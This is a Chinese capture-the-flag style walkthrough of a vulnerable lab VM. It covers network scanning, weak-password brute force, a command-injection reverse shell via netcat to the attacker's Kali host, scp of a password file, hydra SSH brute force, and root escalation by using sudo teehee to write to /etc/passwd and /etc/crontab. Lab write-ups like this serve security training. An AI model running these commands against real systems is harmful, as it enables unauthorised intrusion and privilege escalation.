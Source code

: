 nmap -sP 192.168.1.0/24

或者

arp-scan -l

主机发现

进行详细扫描

nmap -A -p- 192.168.1.129

![](./i/1.png)

发现开启了http与ssh服务，访问http，发现登录页面，使用admin进行弱口令爆破

![](./i/2.png)

发现密码happy，进行登录，发现命令执行点

![](./i/3.png)

验证可以任意执行命令

![](./i/4.png)

反弹shell至kali
```
nc+-e+/bin/bash+192.168.1.128+4444
```

![](./i/5.png)

继续使用python获取交互模式
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](./i/6.png)

在jim的家目录下找到old-password.bak,scp发送至kali，然后使用hydra进行爆破
```
scp old-password.bak kali@192.168.1.128:/home/kali/Desktop
hydra -l jim -P old-password.bak -e ns -t 64 192.168.1.128 ssh
```

![](./i/7.png)

获取到密码jibril04,进行登录，得到提示mail

![](./i/8.png)

寻找mail，进入/var/mail,发现文件jim，cat一下

![](./i/9.png)

发现用户名charles密码^xHhA&hvim0y，切换，sudo -l,发现teehee

![](./i/10.png)

teehee提权
1. 第一种方法
```
echo "test::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su test
```
2. 第二种方法
```
echo "* * * * * root chmod 4777 /bin/sh"|sudo teehee -a /etc/crontab
/bin/sh
```
![](./i/11.png)